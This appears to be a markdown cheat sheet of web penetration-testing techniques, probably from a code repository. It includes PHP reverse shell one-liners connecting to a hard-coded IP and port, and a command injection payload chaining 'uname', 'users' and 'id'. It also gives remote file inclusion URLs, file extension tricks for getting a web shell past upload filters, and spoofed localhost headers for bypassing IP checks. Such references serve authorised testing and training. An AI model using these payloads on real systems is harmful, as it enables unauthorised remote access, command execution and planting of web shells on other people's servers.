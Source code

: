 # WEB

Shells
------

* Reverse shell one-liners:
```
<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>
```

* [Weevely](https://github.com/epinna/weevely3/) - great command line web shell with good features


XSRF (Cross-site Request Forgery)
---------------------------------

* [CSurfer](https://github.com/asaafan/CSurfer/) - CSRF guard hiding extension for Burp


Command Injection
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


File Inclusion
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

File Upload
-----------

* Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

```
shell.jpg.php (satisfies as check for jpg only)
shell.jpg.PhP (obfuscation)
shell.php;.jpg (sometimes can ignore whats after ";")
shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)
shell.php.test (defaults to first recognised extension ignoring "test")
shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)
.phtml (a commonly used php parsed extension often forgotten about!)
.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)
```

* [evilarc](https://github.com/ptoomey3/evilarc) - creates zip files with dir traversal characters in their embedded path


IP Spoofing
-----------

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
-----

Simple scan:

```
perl nikto.pl -host http://www.example.com
```

Browser-Related
---------------

* [Chrome "No Web Security"](https://bugs.chromium.org/p/chromium/issues/detail?id=575690) - Chrome can be started with less web security mode using flag "--disable-web-security"  
* Pentesting plugins: [Firebug](http://getfirebug.com/), [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/), [FoxyProxy](https://getfoxyproxy.org/), [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/)  

